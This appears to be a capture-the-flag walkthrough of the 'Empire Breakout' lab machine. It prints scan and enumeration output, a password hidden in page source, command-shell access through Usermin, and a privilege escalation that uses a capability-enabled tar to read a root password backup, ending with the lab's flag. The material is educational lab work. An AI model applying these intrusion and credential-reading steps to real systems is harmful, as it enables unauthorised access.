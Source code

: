 ```yaml
---
layout: post
title: Empire Breakout walkthrough
subtitle: Explanation
categories: Hacking
tags: [pg, hacking]
---
```

### Empire-Breakout

### Difficulty - Easy

Start first with a port scan
```
PORT      STATE SERVICE     REASON  VERSION
80/tcp    open  http        syn-ack Apache httpd 2.4.51 ((Debian))
|_http-server-header: Apache/2.4.51 (Debian)
|_http-title: Apache2 Debian Default Page: It works
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
139/tcp   open  netbios-ssn syn-ack Samba smbd 4.6.2
445/tcp   open  netbios-ssn syn-ack Samba smbd 4.6.2
20000/tcp open  http        syn-ack MiniServ 1.830 (Webmin httpd)
|_http-server-header: MiniServ/1.830
|_http-title: 200 &mdash; Document follows
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: 599F1D15E0C8BCAE078BE87529916D7A

Host script results:
|_clock-skew: 0s
| smb2-time: 
|   date: 2023-01-25T14:53:04
|_  start_date: N/A
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 36348/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 60233/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 44332/udp): CLEAN (Timeout)
|   Check 4 (port 45931/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
```
We see there are 2 webservers and an smb server running on the machine.

Let's take a look at port 80.
When inspecting the page source, scrolling to the bottom gives us this.

![Screenshot from 2023-01-25 18-02-58](https://user-images.githubusercontent.com/66115581/214630672-e7364c74-ec30-47f0-9292-627d907586eb.png)

You can decode that using this URL https://www.dcode.fr/brainfuck-language.

![Screenshot from 2023-01-25 18-05-10](https://user-images.githubusercontent.com/66115581/214631215-a97d10a6-35a9-4fb9-b160-ad042baefb1e.png)

The output is at the top left, .2uqPEfj3D<P'a-3
Save that for future reference.

Now let's inspect port 20000
It's running Usermin interface. Nice!!! Remembering the ouput from the cipher we decoded, we can use that as a password but all we need is a username.
We need to run enum4linux on the server.
```
=================( Users on 192.168.153.238 via RID cycling (RIDS: 500-550,1000-1050) )=================


[I] Found new SID: 
S-1-22-1

[I] Found new SID: 
S-1-5-32

[I] Found new SID: 
S-1-5-32

[I] Found new SID: 
S-1-5-32

[I] Found new SID: 
S-1-5-32

[+] Enumerating users using SID S-1-5-32 and logon username '', password ''

S-1-5-32-544 BUILTIN\Administrators (Local Group)
S-1-5-32-545 BUILTIN\Users (Local Group)
S-1-5-32-546 BUILTIN\Guests (Local Group)
S-1-5-32-547 BUILTIN\Power Users (Local Group)
S-1-5-32-548 BUILTIN\Account Operators (Local Group)
S-1-5-32-549 BUILTIN\Server Operators (Local Group)
S-1-5-32-550 BUILTIN\Print Operators (Local Group)

[+] Enumerating users using SID S-1-5-21-1683874020-4104641535-3793993001 and logon username '', password ''

S-1-5-21-1683874020-4104641535-3793993001-501 BREAKOUT\nobody (Local User)
S-1-5-21-1683874020-4104641535-3793993001-513 BREAKOUT\None (Domain Group)

[+] Enumerating users using SID S-1-22-1 and logon username '', password ''

S-1-22-1-1000 Unix User\cyber (Local User)

 ==============================( Getting printer info for 192.168.153.238 )==============================

No printers returned.


enum4linux complete on Wed Jan 25 17:23:12 2023
```
Notice the user found at the bottom, 'cyber', and now we can try to login with that user.
Viola!!! We are in.

![Screenshot from 2023-01-25 18-19-15](https://user-images.githubusercontent.com/66115581/214634992-a76ebfd4-17bc-45a0-bad7-38c6a3300435.png)

Switching to the Usermin tab, navigate to the login in the sidebar and click on command shell. Boom you can execute any commands you wish. you can use this URL
to generate reverse shell commands https://www.revshells.com/.

In your shell you can read the local.txt file.
Next, I ran linpeas.sh on the machine and found this

```
╔══════════╣ Capabilities
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#capabilities
Current capabilities:
Current: =
CapInh:	0000000000000000
CapPrm:	0000000000000000
CapEff:	0000000000000000
CapBnd:	000001ffffffffff
CapAmb:	0000000000000000

Shell capabilities:
0x0000000000000000=
CapInh:	0000000000000000
CapPrm:	0000000000000000
CapEff:	0000000000000000
CapBnd:	000001ffffffffff
CapAmb:	0000000000000000

Files with capabilities (limited to 50):
/home/cyber/tar cap_dac_read_search=ep
/usr/bin/ping cap_net_raw=ep
```

The tar binary has been assigned capabilities to read any file. We can use it to read some advantageous files for us. 
Looking at the /var/backups directory we see this.
```
cyber@breakout:~$ cd /var/backups
cd /var/backups
cyber@breakout:/var/backups$ ls -la
ls -la
total 484
drwxr-xr-x  2 root root   4096 Dec  8 06:25 .
drwxr-xr-x 14 root root   4096 Oct 19  2021 ..
-rw-r--r--  1 root root  40960 Dec  8 06:25 alternatives.tar.0
-rw-r--r--  1 root root  12674 Nov 17 03:45 apt.extended_states.0
-rw-r--r--  1 root root   1467 Oct 19  2021 apt.extended_states.1.gz
-rw-r--r--  1 root root      0 Dec  8 06:25 dpkg.arch.0
-rw-r--r--  1 root root    186 Oct 19  2021 dpkg.diversions.0
-rw-r--r--  1 root root    135 Oct 19  2021 dpkg.statoverride.0
-rw-r--r--  1 root root 413488 Oct 19  2021 dpkg.status.0
-rw-------  1 root root     17 Oct 20  2021 .old_pass.bak
cyber@breakout:/var/backups$ 
```
One file stands out there, '.old_pass.bak'. 
In the home directory, run this command to compress the file.
```
cyber@breakout:~$ ./tar -cf pass.tar /var/backups/.old_pass.bak
./tar -cf pass.tar /var/backups/.old_pass.bak
./tar: Removing leading `/' from member names
```
Then run this
```
yber@breakout:~$ tar -xf pass.tar
tar -xf pass.tar
cyber@breakout:~$ ls -la
ls -la
total 1344
drwxr-xr-x  9 cyber cyber   4096 Jan 25 13:11 .
drwxr-xr-x  3 root  root    4096 Oct 19  2021 ..
-rw-------  1 cyber cyber      0 Oct 20  2021 .bash_history
-rw-r--r--  1 cyber cyber    220 Oct 19  2021 .bash_logout
-rw-r--r--  1 cyber cyber   3526 Oct 19  2021 .bashrc
drwxr-xr-x  2 cyber cyber   4096 Oct 19  2021 .filemin
drwx------  3 cyber cyber   4096 Jan 25 12:50 .gnupg
-rwxr-xr-x  1 cyber cyber 776785 Jun 30  2022 linpeas.sh
drwxr-xr-x  3 cyber cyber   4096 Oct 19  2021 .local
-rw-r--r--  1 root  root      33 Jan 25 12:17 local.txt
-rw-r--r--  1 cyber cyber  10240 Jan 25 13:10 pass.tar
-rw-r--r--  1 cyber cyber    807 Oct 19  2021 .profile
drwx------  2 cyber cyber   4096 Oct 19  2021 .spamassassin
-rwxr-xr-x  1 root  root  531928 Oct 19  2021 tar
drwxr-xr-x  2 cyber cyber   4096 Oct 20  2021 .tmp
drwx------ 16 cyber cyber   4096 Oct 19  2021 .usermin
drwxr-xr-x  3 cyber cyber   4096 Jan 25 13:11 var
```
Navigate to the var directory, and read the .old_pass.bak to get the root password.
```
cyber@breakout:~$ cd var/backups
cd var/backups
cyber@breakout:~/var/backups$ cat .old_pass.bak
cat .old_pass.bak
Ts&4&YurgtRX(=~h
cyber@breakout:~/var/backups$ su root
su root
Password: Ts&4&YurgtRX(=~h

root@breakout:/home/cyber/var/backups# cd /root
cd /root
root@breakout:~# id
id
uid=0(root) gid=0(root) groups=0(root)
root@breakout:~# whoami
whoami
root
root@breakout:~# cat proof.txt
cat proof.txt
9df7e481a46456f6558e0745ab19323f
root@breakout:~
```
And boom we're root.
